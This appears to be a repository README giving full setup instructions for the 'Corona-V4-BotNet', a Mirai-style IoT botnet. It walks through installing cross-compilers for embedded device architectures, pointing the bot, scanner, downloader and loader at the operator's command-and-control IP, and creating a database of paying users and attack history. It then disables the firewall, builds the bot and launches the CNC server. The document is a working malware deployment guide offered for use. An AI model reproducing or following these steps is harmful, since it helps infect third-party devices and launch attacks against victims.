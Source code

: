 # Corona-V4-BotNet
// Copy paste this code and put it all on your terminal all at once:

 yum update -y
 yum install epel-release -y
 yum groupinstall "Development Tools" -y
 yum install gmp-devel -y
 ln -s /usr/lib64/libgmp.so.3  /usr/lib64/libgmp.so.10
 yum install screen wget bzip2 gcc nano gcc-c++ electric-fence sudo git libc6-dev httpd xinetd tftpd tftp-server mysql mysql-server gcc glibc-static -y

mkdir /etc/xcompile
cd /etc/xcompile 
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-i586.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-m68k.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mips.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mipsel.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-powerpc.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sh4.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sparc.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv4l.tar.bz2
wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv5l.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-armv6l.tar.bz2
wget https://landley.net/aboriginal/downloads/old/binaries/1.2.6/cross-compiler-armv7l.tar.bz2

tar -jxf cross-compiler-i586.tar.bz2
tar -jxf cross-compiler-m68k.tar.bz2
tar -jxf cross-compiler-mips.tar.bz2
tar -jxf cross-compiler-mipsel.tar.bz2
tar -jxf cross-compiler-powerpc.tar.bz2
tar -jxf cross-compiler-sh4.tar.bz2
tar -jxf cross-compiler-sparc.tar.bz2
tar -jxf cross-compiler-armv4l.tar.bz2
tar -jxf cross-compiler-armv5l.tar.bz2
tar -jxf cross-compiler-armv6l.tar.bz2
tar -jxf cross-compiler-armv7l.tar.bz2
rm -rf *.tar.bz2
mv cross-compiler-i586 i586
mv cross-compiler-m68k m68k
mv cross-compiler-mips mips
mv cross-compiler-mipsel mipsel
mv cross-compiler-powerpc powerpc
mv cross-compiler-sh4 sh4
mv cross-compiler-sparc sparc
mv cross-compiler-armv4l armv4l
mv cross-compiler-armv5l armv5l
mv cross-compiler-armv6l armv6l
mv cross-compiler-armv7l armv7l

cd /tmp
wget https://dl.google.com/go/go1.9.4.linux-amd64.tar.gz -q
tar -xzf go1.9.4.linux-amd64.tar.gz
mv go /usr/local
export GOROOT=/usr/local/go
export GOPATH=$HOME/Projects/Proj1
export PATH=$GOPATH/bin:$GOROOT/bin:$PATH
go version
go env
cd ~/

// Now after that we have to setup the bot.
// Change the other ips with your server IP.

 CHANGE IP(s) IN /bot/includes.h -> For example your server ip is 127.0.0.1 the format should be (127,0,0,1) replace the . with , 
 CHANGE IP(s) IN /scanListen.go
 CHANGE IP(s) IN /dlr/main.c -> For example your server ip is 127.0.0.1 the format should be (127,0,0,1) replace the . with , 
 CHANGE IP(s) IN /loader/src/headers/config.h


// We will setup the database, run these commands on your terminal:

service mysqld start
mysql_secure_installation

// Now Login with your mysql pass by running this command:

mysql -u root -p

// Now we will add the database, copy and paste this on your terminal:

use mysql
GRANT ALL ON *.* to root@'%' IDENTIFIED BY 'YOURMYSQLPASSWORDHERE';
FLUSH PRIVILEGES;

CREATE DATABASE HoHo;
use HoHo;
CREATE TABLE `history` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `user_id` int(10) unsigned NOT NULL,
  `time_sent` int(10) unsigned NOT NULL,
  `duration` int(10) unsigned NOT NULL,
  `command` text NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  PRIMARY KEY (`id`),
  KEY `user_id` (`user_id`)
);
 
CREATE TABLE `users` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `username` varchar(32) NOT NULL,
  `password` varchar(32) NOT NULL,
  `duration_limit` int(10) unsigned DEFAULT NULL,
  `cooldown` int(10) unsigned NOT NULL,
  `wrc` int(10) unsigned DEFAULT NULL,
  `last_paid` int(10) unsigned NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  `admin` int(10) unsigned DEFAULT '0',
  `intvl` int(10) unsigned DEFAULT '30',
  `api_key` text,
  PRIMARY KEY (`id`),
  KEY `username` (`username`)
);
 
CREATE TABLE `whitelist` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `prefix` varchar(16) DEFAULT NULL,
  `netmask` tinyint(3) unsigned DEFAULT NULL,
  PRIMARY KEY (`id`),
  KEY `prefix` (`prefix`)
);
INSERT INTO users VALUES (NULL, 'USERNAME', 'PASSWORD', 0, 0, 0, 0, -1, 1, 30, '');
exit;

                                 ^^^^^^^^    ^^^^^^^^
//                      PUT YOUR USERNAME AND PASSWORD HERE
// Now your database is complete, we will restart and disable services:

service iptables stop 
service httpd restart  
service mysqld restart

// Alright, we have to compile the bot and screen the cnc server by doing this:

cd ~/
chmod 0777 * -R
sh build.sh

nano /usr/include/bits/typesizes.h
scroll down and edit the 1024 to 999999
THEN SAVE IT 
ulimit -n999999; ulimit -u999999; ulimit -e999999

screen ./cnc
